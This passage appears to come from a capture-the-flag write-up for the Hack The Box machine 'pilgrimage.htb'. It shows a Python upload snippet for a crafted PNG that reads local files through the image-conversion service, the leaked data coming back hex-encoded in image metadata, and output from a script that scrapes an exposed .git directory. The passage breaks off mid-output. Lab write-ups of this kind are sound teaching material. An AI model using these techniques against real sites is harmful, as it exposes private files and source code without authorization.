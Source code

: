 I've cut this for brevity but the main issue was the "name" portion needed to be different than the "filename" portion, eventually i saw that this could be done by the following python:


```python
files = {'toConvert': ('enc.png',open('./enc.png','rb'))}
r = requests.post(url,files=files)
print(r.url)

> http://pilgrimage.htb/?message=http://pilgrimage.htb/shrunk/64ecb8b6e848b.png&status=success
```

After reading the file, the retrieved file if avaliable is stored as the "Raw profile type" info section on the file as a hex string.

I created my own PoC for this site stored in this same folder and i used this to explore the local file system.

# Exploit
## Automated .git scraping
```
python3 ./git-rebuild.py http://pilgrimage.htb/.git/
Initializing folder...
hint: Using 'master' as the name for the initial branch. This default branch name
hint: is subject to change. To configure the initial branch name to use in all
hint: of your new repositories, which will suppress this warning, call:
hint: 
hint:   git config --global init.defaultBranch <name>
hint: 
hint: Names commonly chosen instead of 'master' are 'main', 'trunk' and
hint: 'development'. The just-created branch can be renamed via this command:
hint: 
hint:   git branch -m <name>
Initialized empty Git repository in /home/elliot/Development/Security/PY/git-rebuilder/pilgrimage.htb/.git/
Collecting static files from remote .git repo...
getting... http://pilgrimage.htb/.git/HEAD
getting... http://pilgrimage.htb/.git/config
getting... http://pilgrimage.htb/.git/index
getting... http://pilgrimage.htb/.git/.gitignore
HTTP Error 404: Not Found
Reading refs location...
refs/heads/master

http://pilgrimage.htb/.git/refs/heads/master

getting... http://pilgrimage.htb/.git/refs/heads/master

Reading initial hash...
e1a40beebc7035212efdcb15476f9c994e3634a7
Getting hash file...
getting... http://pilgrimage.htb/.git/objects/e1/a40beebc7035212efdcb15476f9c994e3634a7
using git to find missing hashes...
File List:

```